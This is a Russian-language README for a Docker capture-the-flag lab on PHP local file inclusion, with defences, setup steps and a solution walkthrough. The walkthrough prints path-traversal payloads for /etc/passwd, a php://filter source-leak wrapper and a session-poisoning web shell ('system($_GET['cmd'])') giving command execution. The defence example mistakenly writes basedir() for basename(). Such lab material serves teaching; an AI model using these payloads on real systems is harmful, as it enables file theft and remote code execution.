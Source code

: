 ﻿**Описание уязвимости**

Данная уязвимость возникает в приложениях, если пользователь может каким-то образом взаимодействовать с API файловой системы. В большинстве случаев web-приложение использует GET или POST параметры для передачи их содержимого одной из возможной функции включения файлов, но не ограничивается ими.

Функции в разных языках, которые могут приводить к LFI:

- **PHP**: `include()` / `include_once()` , `file_get_contents()`, `fopen() / file()`
- **Java**: `import`
- **.NET**: `@Html.RemotePartial()` , `include`
- **NodeJS**: `res.render()`

  Кроме того, если web-сервер собирает какую-то информацию, например в /etc/apache2/access.log(в случае apache) или /var/log/nginx/access.log(в случае с nginx), то при наличии LFI, можно выставить в качестве значения заголовка User-Agent, какой- то код(в большинстве случаев на php), и включить log файл в следующем запросе. Если web сервер, настроен на обработку php файлов из директории, в которой находятся log файлы, то код выполнится.

**Способы защиты**

В большинстве случаев, необходимо убрать у пользователей возможность взаимодействовать с файловой системой, но если этого сделать нельзя, то тогда можно попытаться использовать следующие механизмы защиты.

- В случае с включением каких-то определённых файлов, можно использовать функцию basename(), которая принимает в качестве параметра любой путь, а возвращает название файла с его расширением. Конечный код должен выглядеть так:

`include basedir($_GET['language'])`

- Необходимо выставлять значение таких переменных, как allow_url_fopen или allow_url_include на off, так как большинство из них позволяет использовать обёртки.
- Можно использовать переменную open_basedir, которая не позволит злоумышленнику получить доступ к файлам, находящимся вне директории, прописанной в качестве значения данной переменной.
- Делать рекурсивную проверку на наличие последовательностей типа '../' или '..'
```php
while (strpos($param_value, '../') !== false) {
  $param_value = str_replace('../', '', $param_value); 
}
```
- Использование WAF

**Запуск приложения**

Для запуска данного приложения необходимо:

- скачать репозиторий
- зайти в директорию с файлом docker-compose.yaml
- в случае, если не нужно менять параметры, зайти из терминала в директорию с конфигурационными файлами и прописать:
```shell
docker-compose up
```
- в браузере вбить http://localhost:port/index.php
- в файле docker-compose.yaml можно поменять значение порта с 8090 на любой другой
- в файле .env можно поменять значение флага на желаемое

**Описание уязвимости**

Необходимо получить доступ к файлу /flag.txt.

В данном приложении есть возможность выбора языка, на котором отобразится текст страницы. Реализована данная возможность с помощью передачи GET параметра lang в HTTP запросе к index.php. У пользователя есть возможность обращаться только к файлу index.php.

Приложение получает и обрабатывает GET параметры, убирая при этом последовательности символов "../". В результате запроса php генерирует html страничку, на которой в объект div с классом container происходит включение содержимого файла из GET параметра с помощью функции include . Кроме того в приложении происходит отслеживание информации о пользователе:
```php
$path_to_lang_file = $_GET['lang'];

$_SESSION['language'] = $path_to_lang_file;
```
Вектор атаки:

- при обращении на index.php в качестве значения GET параметра использовать php код
- посмотреть на имя cookie в Storage с помощью инструмента разработчика
- в следующем GET запросе в качестве значения GET параметра использовать файл абсолютный путь до файла /tmp/sess_<имя-cookie>
- при следующих запросах необходимо повторить шаги 1 и 2 снова

**Решение**

Первое, что можно сделать - это попытаться найти path traversal в GET параметре, передавая в качестве значения следующие полезные нагрузки:
```
../../../../../../../../../../../../etc/passwd

..././..././..././..././..././..././..././etc/passwd

....//....//....//....//....//....//....//....//etc/passwd

%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd

%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd
```
В результате будет выводиться следующее:

![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.009.jpeg)

Это может навести на мысль о том, что значение заголовка фильтруется.

Можно попытаться использовать php wrappers для получения index.php в base64:
```php
php://filter/convert.base64-encode/resource=./index.php
```
![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.011.jpeg)

Получаем содержимое страницы в base64.

Используем любой доступный декодер и получаем следующее:

![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.012.jpeg)

В данном файле имеется три подсказки:

- выставленное значение переменной open_basedir(/app, /tmp - в первой директории хранятся файлы, во второй - сессии)
- комментарий о том, что сессии хранятся в директории tmp
- $_SESSION['language'] = $path_to_lang_file , где $path_to_lang_file в случае обхода фильтрации будет содержать значение GET параметра.

  После этого можно сделать GET запрос с определённым значением:

  ![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.013.jpeg)

  И проверить сохранилось ли это значение в сессии:

  ![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.014.jpeg)

  Полезная нагрузка в данном случае будет следующая:
```
http://localhost:8090/index.php?lang=<?php system($_GET['cmd']);?>
http://localhost:8090/index.php?lang=/tmp/sess_<имя-cookie>?cmd=url-encode(команда)
```
![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.015.jpeg)

Видим содержимое корня и замечаем файлик flag.txt

![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.016.jpeg)

Выводим содержимое файла и получаем флаг:

![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.017.jpeg)

[ref1]: ./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.006.png
